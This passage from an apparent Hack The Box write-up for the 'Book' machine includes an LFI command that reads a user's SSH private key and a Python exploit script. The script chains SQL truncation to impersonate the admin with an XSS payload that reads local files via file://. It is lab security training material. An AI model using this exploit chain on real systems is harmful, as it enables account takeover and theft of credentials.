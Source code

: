 ## SSH Key

After some good Enum, we found a ssh key from user reader

```sh
python3 lfi_book.py -t 10.10.10.176 -f /home/reader/.ssh/id_rsa
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-10-HackTheBox-Book/2021-09-10-HackTheBox-Book%2003:16:30.png)

Now we log in

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-10-HackTheBox-Book/2021-09-10-HackTheBox-Book%2003:20:44.png)

Let's automate it all, to get a reverse shell auto

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-10-HackTheBox-Book/2021-09-10-HackTheBox-Book%2008:41:07.png)

lfi_book.py

```py
#!/usr/bin/python3
# Date: 2021-10-09
# Exploit Author: 0x4rt3mis
# Hack The Box - Book
# Get auto ssh shell on the server
# OBS: to parse the pdf you need to install tika
# pip install tika
# Wait 1 minute to clean the XSS

import argparse
import requests
import sys
import os
from tika import parser
import re

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# First let's trigger the sql truncation
def adminBook(rhost):
    print("[+] Let's trigger the SQL Truncation! [+]")
    url = "http://%s:80/index.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"name": "0x4rt3mis", "email": "admin@book.htb      .", "password": "123456"}
    r.post(url, headers=headers, data=data, proxies=proxies, allow_redirects=True)
    print("[+] Doneee!! [+]")

# Now let's login as admin@book.htb
def loginAdminUpload(rhost,file):
    print("[+] Let's upload the XSS to read the reader's ssh key! [+]")
    url = "http://%s:80/index.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"email": "admin@book.htb", "password": "123456"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    #Once logged in, let's upload the malicious payload
    os.system('echo "aa" > 1.html')
    url = 'http://%s:80/collections.php' %rhost
    data = {'title':'<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file://%s");x.send();</script>' %file, 'author':'0x4rt3mis', 'Upload':'Upload'}
    files = {'Upload':('1.html', open('1.html', 'rb'))}
    r.post(url, data=data, files=files, proxies=proxies)
```